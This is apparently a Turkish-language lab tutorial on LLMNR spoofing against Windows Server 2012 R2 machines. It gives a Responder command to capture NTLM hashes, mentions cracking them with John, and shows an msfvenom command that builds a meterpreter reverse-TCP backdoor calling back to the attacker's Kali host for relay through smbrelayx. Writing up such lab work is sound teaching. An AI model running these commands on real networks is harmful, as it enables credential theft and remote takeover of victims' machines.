




LLMNR Spoofing Nedir?
LLMNR Spoofing Windows'un bir özelliğinin sömürülmesine dayanan bir zaafiyettir.Bu özellik normalde dns serverda bulunamayan bir adresin diğer cihazlarca bilinip bilinmediğini sorgular. Biz ise bu adresin bizim olduğunu iddia ederek kullanıcının hashini alıp DNS servera yönlendireceğiz.
Windows DNS server 192.168.43.50 ip’li windows server 2012 R2 cihazında kurulu. Saldıracağımız cihaz ise 192.168.43.53 ipsinde , DNS servera bağlı bir Windows server 2012 R2.
Kali cihazımızı 192.168.43.60 ipsine getirip route ayarlarını şekilde göründüğü gibi yaptıktan sonra Respnder toolu ile responder -I eth0 -wrf yazarak ağı dinlemeye başlıyoruz.Kurban olmayan bir dizine istek attığı anda hashi respondera düşüyor.
Not: Artık bu hash'a sahip bir bilgisayar bulunmuyor :)
Bu hashi görseldeki gibi john toolu ile kırabilir,veya direk olarak yönlendirerek kullanabiliriz.
LLMNR YÖNLENDİRME
Yönlendirmek için impacket reposunun smbrelayx toolunu kullanacağız.
Ancak bu tool http vs smb protokollerini kullandığı için /usr/share/responer/Responder.conf
dosyasindaki smb ve http özelliklerini deaktif ediyoruz.
Ardından msfvenom ile backdoor oluşturuyoruz.Msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.60 LPORT=4444 -f exe -o
reverse_tcp.exe
Şimdi smbrelayx.py yi kullanarak oluşturduğumuz backdooru kurban cihaza yönlendireceğiz.
msfconsole’dan gerekli ayarlamaları da yaptıktan sonra responder’ı devreye sokup llmnr isteği bekleyeceğiz.
